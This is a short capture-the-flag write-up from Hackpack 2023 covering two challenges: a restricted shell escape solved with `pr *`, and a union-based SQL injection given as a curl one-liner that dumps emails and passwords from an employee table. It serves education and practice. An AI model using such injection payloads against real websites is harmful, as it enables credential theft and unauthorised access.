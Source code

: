 ```yaml
---
layout: post
title:  "Hackpack 2023 - Jeopardy CTF Walkthrough"
date:   2023-04-16 12:28:05 +0100
categories: writeups
---
```


CTFtime url of this event: [here](https://ctftime.org/event/1893)

Our final placement was 14th out of 381 teams.

In this post, we provide solutions for all the challenges we have solved. The mentioned `Author` is not the author of the challenge, but the teammate who solved it.

# Cat Me if You Can

```
Author: Daloski
Description: Restricted shell escape
Category: Misc
Points: 100
Solves: 197
```

## Description
There's a flag hiding in plain sight, Our cat has been trying to get it for a while now, but it keeps escaping him at the last moment. Can you help him out?

## Payload
`pr *`, then profit.

# WolfHowl

```
Author: 0xDark
Description: Union-based SQL injection
Category: Web
Points: 100
Solves: 114
```

## Description
Log into WolfHowl to get the flag

wolfhowl.cha.hackpack.club

## Payload (one-liner)
`curl -s https://wolfhowl.cha.hackpack.club/ --data 'artist=" union select concat(email,":",password),2,3,4 from employee limit 50-- -' | grep -Po 'Artist: .+?<\/p>'`
